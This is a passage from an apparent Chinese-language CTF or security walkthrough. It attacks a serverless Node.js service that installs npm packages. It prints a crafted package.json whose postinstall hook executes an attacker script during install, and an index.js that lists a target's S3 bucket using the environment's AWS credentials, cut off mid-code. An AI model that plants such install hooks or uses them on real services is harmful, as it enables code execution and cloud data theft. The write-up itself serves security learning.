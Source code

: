 ```
	ctx.body = {url:`http://${cfg.host}/node_modules/${zipFileName}`};
	cp.execSync(`rm -f /tmp/${zipFileName}`);
	return;
})
app.use(router.routes());

if (process.env &amp;&amp; process.env.AWS_REGION) {
	require("dns").setServers(['8.8.8.8','8.8.4.4']);
	const serverless = require('serverless-http');
	module.exports.handler = serverless(app, {
		binary: ['image/*', 'image/png', 'image/jpeg']
	});
}else{
	app.listen(3000,()=>{
		console.log(`listening 3000......`);
	});
}
```

可以看到包是存在 亚马逊 s3 上的，而且在最后几行可以看出这个程序似乎是跑在亚马逊的 serverless 服务上的。

10、那么就来写个 nodejs 看看 s3 的  bucket 里有啥吧，把我们的包改下。

package.json 改为如下内容，版本升级，依赖加上，命令执行上。

```
{
  "name": "glzjintest1",
  "version": "1.0.7",
  "description": "",
  "main": "index.js",
  "scripts": {
	"postinstall": "cp index.js ../../test.js &amp;&amp; cd ../../ &amp;&amp; node test.js > result.txt; exit 0"
  },
  "author": "",
  "license": "ISC",
  "dependencies": {
	"aws-sdk": "^2.449.0"
  }
}
```

命令那里我复制到上上级 &#8211; -为了不重复下载依赖- -使得包太大。

index.js 改为如下内容：

```
const AWS = require("aws-sdk");

const s3Parme = {
	// accessKeyId:"xxxxxxxxxxxxxxxx",
	// secretAccessKey:"xxxxxxxxxxxxxxxxxxx",
}

var s3 = new AWS.S3(s3Parme);

// Create the parameters for calling listObjects
var bucketParams = {
  Bucket : 'static.l0ca1.xyz',
};

// Call S3 to obtain a list of the objects in the bucket
s3.listObjects(bucketParams, function(err, data) {
  if (err) {
	console.log("Error", err);
  } else {
```
